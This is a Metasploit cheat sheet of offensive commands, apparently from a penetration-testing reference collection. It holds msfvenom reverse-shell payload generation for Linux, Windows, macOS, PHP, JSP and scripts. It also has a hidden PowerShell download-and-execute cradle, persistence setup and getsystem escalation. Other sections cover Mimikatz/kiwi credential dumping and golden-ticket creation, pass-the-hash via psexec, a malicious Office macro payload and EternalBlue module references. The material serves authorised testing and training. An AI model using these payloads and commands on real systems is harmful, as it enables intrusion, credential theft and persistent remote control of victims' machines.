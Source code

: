 # Metasploit - CheatSheet

# Summary

## Installation

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall

or docker

    sudo docker run --rm -it -p 443:443 -v ~/.msf4:/root/.msf4 -v /tmp/msf:/tmp/data remnux/metasploit

## Sessions

    CTRL+Z   -> Session in Background
    sessions -> List sessions
    sessions -i session_number -> Interact with Session with id
    sessions -u session_number -> Upgrade session to a meterpreter
    sessions -u session_number LPORT=4444 PAYLOAD_OVERRIDE=meterpreter/reverse_tcp HANDLER=false-> Upgrade session to a meterpreter
    
    sessions -c cmd           -> Execute a command on several sessions
    sessions -i 10-20 -c "id" -> Execute a command on several sessions

## Background handler

ExitOnSession : the handler will not exit if the meterpreter dies.

    screen -dRR
    sudo msfconsole
    
    use exploit/multi/handler
    set PAYLOAD generic/shell_reverse_tcp
    set LHOST 0.0.0.0
    set LPORT 4444
    set ExitOnSession false
    
    generate -o /tmp/meterpreter.exe -f exe
    to_handler
    
    [ctrl+a] + [d]

## Meterpreter - Basic

### Generate a meterpreter

    $ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f elf > shell.elf
    $ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f exe > shell.exe
    $ msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f macho > shell.macho
    $ msfvenom -p php/meterpreter_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
    $ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f asp > shell.asp
    $ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.jsp
    $ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f war > shell.war
    $ msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py
    $ msfvenom -p cmd/unix/reverse_bash LHOST="10.10.10.110" LPORT=4242 -f raw > shell.sh
    $ msfvenom -p cmd/unix/reverse_perl LHOST="10.10.10.110" LPORT=4242 -f raw > shell.pl

### Meterpreter Webdelivery

Set up a Powershell web delivery listening on port 8080.

    use exploit/multi/script/web_delivery
    set TARGET 2
    set payload windows/x64/meterpreter/reverse_http
    set LHOST 10.0.0.1
    set LPORT 4444
    run

    powershell.exe -nop -w hidden -c $g=new-object net.webclient;$g.proxy=[Net.WebRequest]::GetSystemWebProxy();$g.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $g.downloadstring('http://10.0.0.1:8080/rYDPPB');

### Get System

    meterpreter > getsystem
    ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM

### Persistence Startup

    OPTIONS:
    
    -A        Automatically start a matching exploit/multi/handler to connect to the agent
    -L <opt>  Location in target host to write payload to, if none %TEMP% will be used.
    -P <opt>  Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T <opt>  Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i <opt>  The interval in seconds between each connection attempt
    -p <opt>  The port on which the system running Metasploit is listening
    -r <opt>  The IP of the system running Metasploit listening for the connect back
    
    meterpreter > run persistence -U -p 4242

### Network Monitoring

    # list interfaces
    run packetrecorder -li
    
    # record interface n°1
    run packetrecorder -i 1

### Portforward

    portfwd add -l 7777 -r 172.17.0.2 -p 3006

### Upload / Download

    upload /path/in/hdd/payload.exe exploit.exe
    download /path/in/victim

### Execute from Memory

    execute -H -i -c -m -d calc.exe -f /root/wce.exe -a  -w

### Mimikatz

    load mimikatz
    mimikatz_command -f version
    mimikatz_command -f samdump::hashes
    mimikatz_command -f sekurlsa::wdigest
    mimikatz_command -f sekurlsa::searchPasswords
    mimikatz_command -f sekurlsa::logonPasswords full

    load kiwi
    creds_all
    golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>

### Pass the Hash - PSExec

    msf > use exploit/windows/smb/psexec
    msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
    msf exploit(psexec) > exploit
    SMBDomain             WORKGROUP                                                          no        The Windows domain to use for authentication
    SMBPass               598ddce2660d3193aad3b435b51404ee:2d20d252a479f485cdf5e171d93985bf  no        The password for the specified username
    SMBUser               Lambda                                                             no        The username to authenticate as

## Scripting Metasploit

Using a `.rc file`, write the commands to execute, then run `msfconsole -r ./file.rc`. Here is a simple example to script the deployment of a handler an create an Office doc with macro.

    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_https
    set LHOST 0.0.0.0
    set LPORT 4646
    set ExitOnSession false
    exploit -j -z
    
    
    use exploit/multi/fileformat/office_word_macro 
    set PAYLOAD windows/meterpreter/reverse_https
    set LHOST 10.10.14.22
    set LPORT 4646
    exploit

## Multiple transports

    msfvenom -p windows/meterpreter_reverse_tcp lhost=<host> lport=<port> sessionretrytotal=30 sessionretrywait=10 extensions=stdapi,priv,powershell extinit=powershell,/home/ionize/AddTransports.ps1 -f exe

Then, in AddTransports.ps1

    Add-TcpTransport -lhost <host> -lport <port> -RetryWait 10 -RetryTotal 30
    Add-WebTransport -Url http(s)://<host>:<port>/<luri> -RetryWait 10 -RetryTotal 30

## Best of - Exploits

- MS17-10 Eternal Blue - `exploit/windows/smb/ms17_010_eternalblue`
- MS08_67 - `exploit/windows/smb/ms08_067_netapi`

## References

- [Multiple transports in a meterpreter payload - ionize](https://ionize.com.au/multiple-transports-in-a-meterpreter-payload/)
- [Creating Metasploit Payloads - Peleus](https://netsec.ws/?p=331)